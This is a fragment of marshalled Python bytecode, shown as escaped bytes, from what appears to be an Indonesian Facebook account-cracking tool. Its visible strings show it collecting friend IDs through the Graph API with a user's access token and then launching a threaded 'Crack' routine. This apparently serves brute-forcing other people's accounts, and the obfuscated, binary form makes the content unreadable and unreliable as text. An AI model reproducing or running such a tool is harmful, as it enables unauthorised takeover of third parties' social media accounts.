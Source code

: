 <Sazxt>Rh\x00\x00\x00\xba\x00\x00\x00s\x1e\x00\x00\x00\x00\x02\r\x01\x03\x01\x19\x01\r\x01\x05\x01\r\x01\r\x01\x0b\x01\r\x01\x05\x01\x05\x01\x05\x01\x05\x01\x05\x01c\x00\x00\x00\x00\x0c\x00\x00\x00\x05\x00\x00\x00C\x00\x00\x00s\x8a\x02\x00\x00t\x00\x00d\x01\x00\x83\x01\x00}\x00\x00|\x00\x00d\x02\x00k\x02\x00r\'\x00d\x03\x00GHt\x01\x00\x83\x00\x00\x01n\x94\x01|\x00\x00d\x04\x00k\x02\x00r\xa2\x00t\x02\x00j\x03\x00d\x05\x00\x83\x01\x00\x01t\x04\x00GHd\x06\x00GHt\x05\x00d\x07\x00\x83\x01\x00\x01t\x06\x00j\x07\x00d\x08\x00t\x08\x00\x17\x83\x01\x00}\x01\x00t\t\x00j\n\x00|\x01\x00j\x0b\x00\x83\x01\x00}\x02\x00x?\x01|\x02\x00d\t\x00\x19D]\x17\x00}\x03\x00t\x0c\x00j\r\x00|\x03\x00d\n\x00\x19\x83\x01\x00\x01q\x84\x00Wn\x19\x01|\x00\x00d\x0b\x00k\x02\x00r\x99\x01t\x02\x00j\x03\x00d\x05\x00\x83\x01\x00\x01t\x04\x00GHd\x0c\x00GHt\x00\x00d\r\x00\x83\x01\x00}\x04\x00y>\x00t\x06\x00j\x07\x00d\x0e\x00|\x04\x00\x17d\x0f\x00\x17t\x08\x00\x17\x83\x01\x00}\x05\x00t\t\x00j\n\x00|\x05\x00j\x0b\x00\x83\x01\x00}\x06\x00d\x10\x00|\x06\x00d\x11\x00\x19\x17GHWn\'\x00\x04t\x0e\x00k\n\x00r8\x01\x01\x01\x01d\x12\x00GHt\x00\x00d\x13\x00\x83\x01\x00\x01t\x0f\x00\x83\x00\x00\x01n\x01\x00Xt\x05\x00d\x07\x00\x83\x01\x00\x01t\x06\x00j\x07\x00d\x0e\x00|\x04\x00\x17d\x14\x00\x17t\x08\x00\x17\x83\x01\x00}\x01\x00t\t\x00j\n\x00|\x01\x00j\x0b\x00\x83\x01\x00}\x02\x00xH\x00|\x02\x00d\t\x00\x19D]\x17\x00}\x07\x00t\x0c\x00j\r\x00|\x07\x00d\n\x00\x19\x83\x01\x00\x01q{\x01Wn"\x00|\x00\x00d\x15\x00k\x02\x00r\xaf\x01t\x10\x00\x83\x00\x00\x01n\x0c\x00d\x03\x00GHt\x01\x00\x83\x00\x00\x01d\x16\x00t\x11\x00t\x12\x00t\x0c\x00\x83\x01\x00\x83\x01\x00\x17GHd\x17\x00d\x18\x00d\x19\x00g\x03\x00}\x08\x00x0\x00|\x08\x00D](\x00}\t\x00d\x1a\x00|\t\x00\x17Gt\x13\x00j\x14\x00j\x15\x00\x83\x00\x00\x01t\x16\x00j\x17\x00d\x1b\x00\x83\x01\x00\x01q\xe6\x01WHd\x1c\x00GHd\x1d\x00GHd\x1e\x00\x84\x00\x00}\n\x00t\x18\x00d\x1f\x00\x83\x01\x00}\x0b\x00|\x0b\x00j\x19\x00|\n\x00t\x0c\x00\x83\x02\x00\x01d \x00GHd!\x00t\x11\x00t\x12\x00t\x1a\x00\x83\x01\x00\x83\x01\x00\x17d"\x00\x17t\x11\x00t\x12\x00t\x1b\x00\x83\x01\x00\x83\x01\x00\x17GHd#\x00GHt\x00\x00d\x13\x00\x83\x01\x00\x01t\x0f\x00\x83\x00\x00\x01d\x00\x00S($\x00\x00\x00Ns\x14\x00\x00\x00\n\x1b[1;97m >>> \x1b[1;97mR\n\x00\x00\x00s \x00\x00\x00\x1b[1;91m[!] \x1b[1;97mIsi yang benarR/\x00\x00\x00R$\x00\x00\x00sp\x00\x00\x00\x1b[1;97m\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x97s9\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;92mMengambil ID \x1b[1;97m...s3\x00\x00\x00https://graph.facebook.com/me/friends?access_token=R_\x00\x00\x00R\\\x00\x00\x00Rg\x00\x00\x00s\x82\x00\x00\x00\x1b[1;97m\xe2\x95\x94\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x97sA\x00\x00\x00\x1b[1;97m[\x1b[1;92m+\x1b[1;97m] \x1b[1;92mMasukan ID teman \x1b[1;91m: \x1b[1;97ms\x1b\x00\x00\x00https://graph.facebook.com/s\x0e\x00\x00\x00?access_token=s=\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;92mNama teman\x1b[1;91m :\x1b[1;97m Rb\x00\x00\x00s(\x00\x00\x00\x1b[1;91m[!] \x1b[1;97mTeman tidak ditemukan!s\x1f\x00\x00\x00\n\x1b[1;91m[\x1b[1;97mKembali\x1b[1;91m]s\x16\x00\x00\x00/friends?access_token=R5\x00\x00\x00s;\x00\x00\x00\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;92mTotal ID \x1b[1;91m: \x1b[1;97ms\x04\x00\x00\x00.   s\x04\x00\x00\x00..  s\x04\x00\x00\x00... s0\x00\x00\x00\r\x1b[1;97m[\x1b[1;92m\xe2\x80\xa2\x1b[1;97m] \x1b[1;92mCrack \x1b[1;97mi\x01\x00\x00\x00s\x1d\x00\x00\x00\x1b[1;91m[!] \x1b[1;97mStop
